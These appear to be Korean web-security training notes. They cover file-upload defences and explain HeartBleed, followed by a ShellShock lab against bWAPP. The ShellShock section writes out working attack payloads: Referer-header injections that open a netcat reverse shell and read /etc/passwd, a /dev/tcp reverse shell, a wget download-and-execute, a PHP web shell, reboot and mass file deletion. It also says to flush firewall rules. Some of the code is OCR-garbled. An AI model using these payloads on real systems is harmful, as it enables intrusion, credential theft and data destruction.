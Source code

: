 
### 파일 업로드 취약점 - 파일 업로드 취약점 대응 방안

1. 시큐어 코딩 - 소스코드 레벨 대응
- 첨부 파일 확장자 검증은 서버 사이드 스크립트에서 검증해야 함.
- 첨부파일 확장자 검증은 "블랙 리스트의 차단"이 아닌 "화이트 리스트의 허용"으로 해야 함.
- PHP
- JSP

2. 시스템 보안 레벨
- Apache 설정 파일인 httpd.conf에 해당 디렉토리에 대한 문서 타입을 컨트롤하기 위해 Directory 섹션의 AllowOverride 지시자에서 FileInfo 또는 All 추가
- 파일 업로드 디렉토리에 .htaccess 파일을 만들고 다음과 같이 AddType 지시자를 이용, 현재 서버에서 운영되는 Server Side Script 확장자를 text/html로 MIME Type을 재조정하여 업로드된 Server Side Script가 실행되지 않도록 설정

---

### 기타 주요 웹 취약점 - HeartBleed 취약점 이해 및 실습

**HeartBleed 취약점 이해**
- OpenSSL 라이브러리는 데이터 통신 간의 네트워크 암호화 프로토콜 TLS와 SSL 기능을 구현한 라이브러리
- 서버와 클라이언트간의 연결을 안정적으로 지속시키기 위해 HeartBleed 과정이 필요
- 미국시간으로 2014.4.7일 OpenSSL HeartBeat 취약성에 대한 발표 (인터넷 침해대응 센터(KrCERT) 홈페이지에 4월 9일 보안공지)
- 하트비트 (HeartBeat)라는 확장 모듈에서 클라이언트 요청 메시지를 처리할 때 데이터 길이 검증을 수행하지 않아 시스템 메모리에 저장된 64KB 크기의 데이터를 외부에서 아무런 제한 없이 탈취할 수 있는 취약점
- 하트비트: 클라이언트와 서버 간의 연결 상태 체크를 위한 OpenSSL 암호화 라이브러리의 확장 모듈
- OpenSSL 취약점은 아직도 꾸준히 신규 취약점 발생

**HeartBleed 취약점을 통한 침해사례**
- 캐나다 국세청을 통해 사회보장번호 900여개가 유출
- 영국에서도 150만여명의 가입자를 보유한 육아 관련 사이트 '멈스넷'(Mumsnet)을 상대로 이용자 정보에 접근

---

### 기타 주요 웹 취약점 - 쉘샤크 취약점 이해 및 실습

**ShellShock 취약점 사례**
- 2014년 9월 24일 스테판 챠젤라스(Stephane CChazelas)에 의해 원격코드 인젝션 제로데이 취약점(CVE-2014-6271)이 공개
- 환경변수 / 함수 선언 / 삽입된 명령어
- bash-4.3/builtins/evalstring.c
- parse_and_execute() 함수는 전달된 문자열의 끝까지 처리하기 위해 반복문(While)을 사용하는데, 함수 선언문 뒤에 명령어가 삽입된 것을 확인하고 반복문을 종료시키는 코드가 없음.

방화벽 룰을 임시적으로 내려야 함 iptables -F
```
Referer: () { :;}; echo "bWAPP:" $(/bin/sh -c "expr 1 + 1")
Referer: () { :;}; echo "Vulnerable bWAPP:"
Referer: () { :;}; echo "Vulnerable bWAPP:" $(/bin/sh -c "nc 192.168.206.132 7777 -e /bin/bash")
Referer: () { :;}; echo "Vulnerable bWAPP:"" $(/bin/sh -c "cat /etc/passwd")
```

**ShellShock 취약점 추가 공격 패턴**
```
리버스 셸 연결 : /bin/bash -i > /dev/tcp/localhost/8081 0>&1
악성파일 다운 : wget -O /tmp/syslogd http://localhost/prog; chmod 777 /tmp/syslogd: /tmp/syslogd;
시스템 상태 체크 : /bin/ping -c localhost
계정 탈취 : /bin/cat /etc/passwd > dumped_file
웹 셸 생성 : echo ₩"<? ₩₩$cmd = ₩W$_REQUEST[₩₩₩"cmd₩₩₩"]; if(₩₩$cmd != ₩₩₩" ₩₩₩") print Shell_Exec(₩₩$cmd;?>₩"> ../../p.php & o
시스템 재시작 : /bin/bash -c ₩"reboot₩"
PHP 소스 삭제 : find / -name *. php | xargs rm -rf
```
